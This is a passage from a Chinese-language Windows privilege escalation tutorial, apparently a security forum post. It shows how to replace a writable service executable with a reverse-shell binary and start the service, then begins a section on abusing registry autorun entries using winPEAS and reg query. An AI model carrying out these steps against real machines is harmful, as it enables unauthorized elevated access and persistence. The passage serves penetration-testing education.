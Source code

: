 ##### 3.创建可执行的原始服务的备份：

```php
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```

![image-20210706161530749](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ddedca0e8ce5fe8b92323c77f4a40f2e798af590.png)

##### 4.复制可执行的反向外壳，以覆盖可执行的服务：

```php
copy /Y C:\Users\user\Desktop\a002.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![image-20210706162117179](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-eb2857a1c9e165d09ef823264c49fdba5cca346f.png)

##### 5.启动服务触发漏洞进行反弹shell：

```php
net start filepermsvc
```

![image-20210706162041312](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1e2fe78553ee0e1d688a99b2c5af150f71c0d241.png)

![image-20210706162054309](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-713720db5e1d0ea3538ab098eeb470b508032386.png)

0x06 注册表
========

自启动
---

### 前言

Windows可以配置为在启动时运行命令， 拥有更高的特权。

这些“自动运行”是在注册表中配置的。 如果我们可以写入自动运行可执行文件，并且

能够重新启动系统(或等待系统重新启动)，可能会提升权限

### 实操

#### 1.使用winPEAS 检查系统签发的自动运行可执行文件：

```php
.\winPEASany.exe quiet applicationsinfo
```

![image-20210707163137620](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-904882826767cb6927697497ea0a1b4a3caf3920.png)

#### 2.或者，我们可以手动列举自动运行可执行项：

```php
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
